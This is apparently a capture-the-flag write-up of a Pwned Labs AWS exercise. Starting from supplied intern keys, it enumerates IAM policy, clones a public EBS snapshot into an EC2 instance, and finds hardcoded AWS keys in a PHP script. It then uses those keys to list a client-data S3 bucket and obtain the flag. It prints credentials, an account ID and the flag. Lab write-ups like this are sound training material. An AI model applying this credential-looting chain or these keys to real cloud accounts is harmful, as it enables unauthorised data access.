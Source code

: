 ```yaml
---
title: loot-public-ebs-snapshots
layout: default
permalink: /writeups/pwnedlabs/:title/
tags: [writeup]
category: pwnedlabs
---
```


# [loot-public-ebs-snapshots](https://pwnedlabs.io/labs/loot-public-ebs-snapshots)

<br>


### Initial Access

```
[pwnedlabs]
aws_access_key_id = AKIARQVIRZ4UCZVR25FQ
aws_secret_access_key = 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
```

<br>

### get-caller-identity

```
{
    "UserId": "AIDARQVIRZ4UJNTLTYGWU",
    "Account": "104506445608",
    "Arn": "arn:aws:iam::104506445608:user/intern"
}
```

<br>

### aws-policy-probe

```
╔══════════╣ Attached
║
║ [+] Found 1 Attached Policy
║
║
╠═════╣ [1] PublicSnapper (arn:aws:iam::104506445608:policy/PublicSnapper)
║
╠══╣ Get-Policy
║ {
║     "PolicyName": "PublicSnapper",
║     "PolicyId": "ANPARQVIRZ4UD6B2PNSLD",
║     "Arn": "arn:aws:iam::104506445608:policy/PublicSnapper",
║     "Path": "/",
║     "DefaultVersionId": "v9",
║     "AttachmentCount": 1,
║     "PermissionsBoundaryUsageCount": 0,
║     "IsAttachable": true,
║     "CreateDate": "2023-06-10 22:33:41+00:00",
║     "UpdateDate": "2024-01-15 23:47:11+00:00",
║     "Tags": []
║ }
║
╠══╣ Get-Policy-Version
║ {
║     "Sid": "Intern1",
║     "Effect": "Allow",
║     "Action": "ec2:DescribeSnapshotAttribute",
║     "Resource": "arn:aws:ec2:us-east-1::snapshot/snap-0c0679098c7a4e636"
║ }
║ {
║     "Sid": "Intern2",
║     "Effect": "Allow",
║     "Action": "ec2:DescribeSnapshots",
║     "Resource": "*"
║ }
║ {
║     "Sid": "Intern3",
║     "Effect": "Allow",
║     "Action": [
║         "iam:GetPolicyVersion",
║         "iam:GetPolicy",
║         "iam:ListAttachedUserPolicies"
║     ],
║     "Resource": [
║         "arn:aws:iam::104506445608:user/intern",
║         "arn:aws:iam::104506445608:policy/PublicSnapper"
║     ]
║ }
║ {
║     "Sid": "Intern4",
║     "Effect": "Allow",
║     "Action": [
║         "ebs:ListSnapshotBlocks",
║         "ebs:GetSnapshotBlock"
║     ],
║     "Resource": "*"
║ }
```

<br>

### Copy Public Snapshot

1. Search for public snapshot `snap-0c0679098c7a4e636` in the `us-east-1` region.
![image](/assets/img/Pasted image 20241030235300.png)

2. Select the snapshot and click `Actions > Copy snapshot` 

<br>

### Create AMI from Copied Snapshot

1. Confirm that our snapshot has copied by navigating to `Elastic Block Store > Snapshots` and filter by `Owned by me`.
![image](/assets/img/Pasted image 20241031010518.png)

2. Select the snapshot then `Actions > Create image from snapshot`.

<br>

### Create EC2 Instance from AMI

1. Navigate to your `AMIs`
![image](/assets/img/Pasted image 20241031010719.png)

2. Select the `AMI` then `Launch instance from AMI`

3. Confirm instance is created
![image](/assets/img/Pasted image 20241031005230.png)

<br>

### Connect to EC2

1. Select the EC2 instance then `Connect`. Use the `EC2 Instance Connect` connection method.
![image](/assets/img/Pasted image 20241031011017.png)

<br>

### Hardcoded AWS Credentials

Looking around the file system we find an interesting directory `/home/intern/practice_files`. Inside of this directory, we find a `php` script with hardcoded AWS credentials that connects to a S3 bucket containing sensitive data `s3_download_file.php`.

```php
<?php
  $BUCKET_NAME = 'ecorp-client-data';
  $IAM_KEY = 'AKIARQVIRZ4UDSDT72VT';
  $IAM_SECRET = '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';
  require '/opt/vendor/autoload.php';
  use Aws\S3\S3Client;
  use Aws\S3\Exception\S3Exception;
 
  $keyPath = 'test.csv'; // file name(can also include the folder name and the file name. eg."member1/IoT-Arduino-Monitor-circuit.png")
    
//S3 connection 
  try {
    $s3 = S3Client::factory(
      array(
        'credentials' => array(
          'key' => $IAM_KEY,
          'secret' => $IAM_SECRET
        ),
        'version' => 'latest',
        'region'  => 'us-east-1'
      )
    );
    //to get the file information from S3
    $result = $s3->getObject(array(
      'Bucket' => $BUCKET_NAME,
      'Key'    => $keyPath
    ));
    
    header("Content-Type: {$result['ContentType']}");
    header('Content-Disposition: filename="' . basename($keyPath) . '"'); // used to download the file.
    echo $result['Body'];
  } catch (Exception $e) {
    die("Error: " . $e->getMessage());
  }
?>
```

<br>

### Looting S3

```
[s3_download]
aws_access_key_id = AKIARQVIRZ4UDSDT72VT
aws_secret_access_key = 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
```

```bash
python3 s3-scanner/main.py --bucket ecorp-client-data --profile s3_download --ls
```

```
╔══════════╣ ls
║
║ [+] Found 3 objects in ecorp-client-data
║
║ Size        Last Modified   Type   Read  File Name
║ 3.5 kB      Jun 12 2023     csv     ✓    ecorp_dr_logistics.csv
║ 32 Bytes    Jun 12 2023     txt     ✓    flag.txt
║ 7 Bytes     Jun 12 2023     csv     ✓    test.csv
```

![image](/assets/img/Pasted image 20241031012515.png)

<br>

### Flag

```
523dceadbd01555b40ad177433b311b3
```